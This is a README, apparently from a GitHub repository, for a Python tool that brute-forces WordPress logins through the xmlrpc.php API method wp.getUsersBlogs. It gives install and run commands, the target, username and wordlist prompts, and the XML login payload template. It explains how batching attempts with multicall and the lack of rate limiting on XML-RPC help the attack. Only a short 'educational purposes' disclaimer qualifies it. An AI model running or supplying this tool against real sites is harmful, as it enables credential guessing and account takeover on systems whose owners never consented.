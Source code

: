 ## overview
this tool performs a **brute force attack** against WordPress sites via the vulnerable XML-RPC API method `wp.getUsersBlogs`.

If `xmlrpc.php` is enabled and not protected, it allows attackers to send repeated login attempts in a structured XML format — sometimes even batching them together — bypassing traditional brute force protections.

---

## installation

clone repo and install dependencies:
```bash
git clone https://github.com/Pwdnx1337/xmlrpc-bruteforcer
cd xmlrpc-bruteforcer
pip install -r requirements.txt
````
## usage

run the script:

```bash
python3 xmlrpc.py
```

it will prompt:

```
url: https://example.com/xmlrpc.php
username: admin
password: wordlist.txt
```

* **url** > target site XML-RPC endpoint
* **username** > WordPress username to attack
* **password** > path to your password list file

successful credentials are saved in:

```
save.txt
```

example entry:

```
https://example.com/xmlrpc.php admin:password123
```

## technical Explanation

* WordPress includes `xmlrpc.php`, an API endpoint used for remote publishing, pingbacks, and integrations.
* inside `xmlrpc.php`, the method `wp.getUsersBlogs` can authenticate a user with **username + password**.
* if brute-force protections are not applied:

  * an attacker can automate thousands of login attempts via XML-RPC.
  * unlike `wp-login.php`, XML-RPC may not trigger login rate-limiting.
  * some servers allow **multicall requests** (dozens of login attempts in a single HTTP request).

### attack flow

1. script prepares an XML payload with:

   ```xml
   <methodName>wp.getUsersBlogs</methodName>
   <params>
     <param><value><string>{username}</string></value></param>
     <param><value><string>{password}</string></value></param>
   </params>
   ```
2. sends payload via `POST` to `xmlrpc.php`.
3. if credentials are correct > the response contains `<name>` and `isAdmin`.
4. once found, credentials are logged to `save.txt`.

## disclaimer
this script is for **educational purposes only**.  
do not use it against systems you don’t own or without **explicit permission**.  
unauthorized use may be **illegal** and could cause **criminal charges**.
